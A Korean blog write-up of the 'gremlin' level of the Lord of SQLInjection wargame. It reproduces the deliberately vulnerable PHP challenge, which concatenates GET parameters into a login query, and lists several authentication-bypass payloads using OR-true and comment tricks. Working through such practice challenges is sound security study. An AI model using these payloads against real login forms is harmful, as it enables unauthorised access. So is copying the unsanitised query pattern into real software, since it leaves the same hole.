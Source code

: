 ```yaml
---
layout: post

title: Lord of SQLInjection 1일차

description: >
  Lord of SQLInjection Day1

tags:
 - [LOS, SQL, Injection]

toc: true
toc_sticky: true

date: 2023-01-27

sitemap: false

---
```

---
## LORD OF SQLINJECTION
### gremlin
- 문제
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
<details markdown="1">
<summary>풀이</summary>

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
# db에서 select한 id를 $query에 저장한다.
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
# mysqli_query($db, $query): db에서 query로 가져온 데이터.
# $result = mysqli_fetch_array(): $result에 array로 저장한다.
# if $result['id'] solve("gremlin"): id가 result에 있으면 solve.
```
> 입력된 id가 db에 있으면 gremlin이 해결된다. admin 등의 id로 시도해볼 수 있겠지만, 여기에선 논리식으로 풀이한다.

- 답안  
id= '' and pw= '' 값이 TRUE가 나오면 되는 문제다.
1. id= '' or '1=1' & pw= '' or '1=1'  
가장 단순하게 TRUE and TRUE를 만들었다. 
2. id= '' or '1=1' or '#' #and pw=#
id를 TRUE로 만들어주고 and 뒤를 주석처리하여 TRUE를 만들었다.
3. **id= '' or '1=1' or '1=1' 
and 연산이 선순위를 가지는 점을 이용하였다.   
TRUE or TRUE and FALSE로 구성했다. 최종 TRUE.**
4. pw='1' or '1=1'  
3.과 같다. FALSE and FALSE or TRUE로 구성했다. 최종 TRUE.
</details>

## 부록
### PHP
- url에서 특수문자는 무시된다. #의 url인코딩 %23   
[GET](https://stonefree.tistory.com/616)
- GET 방식은 데이터를 URL에 붙여 데이터를 전송하는 방식.  
[preg_match](https://ponyozzang.tistory.com/176)
- 첫 번째 인수: 정규식 표현 작성.
- 두 번째 인수: 검색 대상 문자열.  
[PHP MySQL](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=diceworld&logNo=220292127761)
